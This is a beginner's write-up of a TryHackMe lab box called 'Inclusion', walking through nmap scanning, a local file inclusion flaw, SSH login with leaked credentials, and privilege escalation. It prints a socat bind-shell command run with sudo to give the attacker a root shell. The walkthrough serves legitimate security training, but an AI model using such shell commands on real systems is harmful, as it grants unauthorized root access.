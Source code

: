 # Inclusion, by N3PH1L4X
This was a pretty fun room, it consists on basic local file inclusion and a little bit of post-exploiting enumeration. As its description states: it's for beginners, so this is a good room to learn and practice LFI. Let's start.
> Room link: https://tryhackme.com/room/inclusion

## Scanning
First of all we run a common nmap port scan:
~~~
nmap 10.10.115.231 -p- -n --min-rate=1000 --open -vvv
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-08 20:46 -04
Initiating Ping Scan at 20:46
Scanning 10.10.115.231 [2 ports]
Completed Ping Scan at 20:46, 0.36s elapsed (1 total hosts)
Initiating Connect Scan at 20:46
Scanning 10.10.115.231 [65535 ports]
Discovered open port 80/tcp on 10.10.115.231
Discovered open port 22/tcp on 10.10.115.231
Connect Scan Timing: About 27.62% done; ETC: 20:48 (0:01:21 remaining)
Connect Scan Timing: About 55.55% done; ETC: 20:48 (0:00:49 remaining)
Completed Connect Scan at 20:48, 119.38s elapsed (65535 total ports)
Nmap scan report for 10.10.115.231
Host is up, received syn-ack (0.68s latency).
Scanned at 2021-08-08 20:46:47 -04 for 120s
Not shown: 40635 filtered ports, 24898 closed ports
Reason: 40635 no-responses and 24898 conn-refused
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 119.79 seconds
~~~

Here we can see there are two open ports, let's scan those ports:
~~~
nmap 10.10.115.231 -p22,80 -n -sV -sC -A
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-08 21:03 -04
Nmap scan report for 10.10.115.231
Host is up (0.36s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e6:3a:2e:37:2b:35:fb:47:ca:90:30:d2:14:1c:6c:50 (RSA)
|   256 73:1d:17:93:80:31:4f:8a:d5:71:cb:ba:70:63:38:04 (ECDSA)
|_  256 d3:52:31:e8:78:1b:a6:84:db:9b:23:86:f0:1f:31:2a (ED25519)
80/tcp open  http    Werkzeug httpd 0.16.0 (Python 3.6.9)
|_http-server-header: Werkzeug/0.16.0 Python/3.6.9
|_http-title: My blog
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.31 seconds
~~~

There are two running services on those ports, let's check the web page on port 80:
![image](https://user-images.githubusercontent.com/71483185/128653032-7caa3e8e-b8fd-4209-aa62-34be834b88ba.png)

It's a blog with a few entries explaining some attack vectors, let's have a look on the LFI entry:
![image](https://user-images.githubusercontent.com/71483185/128653078-4adf894d-a7e9-48ea-a405-858b9e4c2ab8.png)

## Exploitation
Well that looks strange... The url might be useful. Let's try checking if we can view files outside the web directory:
![image](https://user-images.githubusercontent.com/71483185/128653228-25dd0d25-eed5-4385-a7ef-aeb6bb3603c9.png)
We certainly can, there is an user listed there. We can know that by searching user IDs (UID) from 1000 and over.

Also there is what seems to be an user/password combination. What if we try that on the SSH port?
![image](https://user-images.githubusercontent.com/71483185/128653830-a0f74821-522e-4092-80f2-be5c3e2b846b.png)<br>
There it is. We have broke in.

And here is our user flag file.<br>
![image](https://user-images.githubusercontent.com/71483185/128654253-15acb8cb-7f88-4482-b1b9-02131c1dfb6d.png)

## Privilege escalation
Now all we have to do is escalate privileges. Are we sudoers?
![image](https://user-images.githubusercontent.com/71483185/128654678-d2752cb2-f411-49c4-83f0-8d229ba2b90c.png)<br>
Yes! And we can use socat as superuser without providing a password.

Let's have a look on what socat is:<br>
![image](https://user-images.githubusercontent.com/71483185/128654840-7e5b549c-1a07-4602-afa7-469ada3918b3.png)<br>
> Source: https://www.redhat.com/sysadmin/getting-started-socat

It seems like we can establish a TCP connection using this tool. Let's try this on our victim's machine:
~~~
sudo socat TCP4-LISTEN:4444,reuseaddr EXEC:"/bin/bash"
~~~
This command is going to run socat as superuser, is going to setup a TCP listener on port 4444 and start /bin/bash (the victim's shell) when it catches a connection.<br>
![image](https://user-images.githubusercontent.com/71483185/128655592-a0f1d434-3a25-43af-a112-f04ea7b7e13f.png)<br>
Listener is awaiting for connection.<br>

Now we are going to run this command on our attacker's machine:<br>
~~~
socat – TCP4:10.10.115.231:4444
~~~
It's gonna try establish a TCP connection to the IP provided, in my case it's 10.10.115.231 on port 4444.
![image](https://user-images.githubusercontent.com/71483185/128655879-ab879bbd-32c9-4bc1-bb03-bdcd052bb4fa.png)<br>
And there it is!

All we need to do now is find our root flag file!<br>
![image](https://user-images.githubusercontent.com/71483185/128655960-c06830f1-a05e-4e24-aa75-3bcdb6a7999b.png)

## Finishing off
That's it! As I said before, this is a pretty easy but fun room, very useful for learning and practicing LFI.
Thank you for reading this write up!
